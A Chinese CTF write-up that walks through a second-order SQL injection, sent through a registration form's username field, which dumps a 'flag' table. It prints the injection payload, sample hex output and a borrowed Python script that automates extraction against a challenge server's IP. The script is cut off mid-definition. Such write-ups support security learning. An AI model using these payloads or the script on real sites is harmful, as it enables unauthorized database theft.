 所以言归正传，开始做题。


这里`information`被过滤了，看别的wp都是盲猜表名。

构造

```
email:       10@1.com
username:    0' + substr(hex(hex((select * from flag))) from 1 for 10) + '0
password:    1
```

这里可以一直变换email和username注册，来得到截取的数字。。。



```
3636364336
3136373742          
3332333433          
3933343635          
3334363236     
3633303336             
3337333333       
3436333333           
3339363236      
....
```        

手动了一会，发现这段特别长。。。就找了下大佬们的脚本。

跑一跑，比手动香多了.。。（菜鸡落泪）

脚本来自： https://blog.csdn.net/qq_41429081/article/details/105600568


```
import requests
import time
from bs4 import BeautifulSoup       #html解析器

def getDatabase():
    database = ''
    for i in range(10):
        data_database = {
            'username':"0'+ascii(substr((select database()) from "+str(i+1)+" for 1))+'0",
            'password':'admin',
            "email":"admin11@admin.com"+str(i)
        }
        #注册
        requests.post("http://220.249.52.133:59578/register.php",data_database)
        login_data={
            'password':'admin',
            "email":"admin11@admin.com"+str(i)
        }
        response=requests.post("http://220.249.52.133:59578/login.php",login_data)
        html=response.text                  #返回的页面
        soup=BeautifulSoup(html,'html.parser')
        getUsername=soup.find_all('span')[0]#获取用户名
        username=getUsername.text
        if int(username)==0:
            break
        database+=chr(int(username))
    return database

print(getDatabase())


def getTables():
```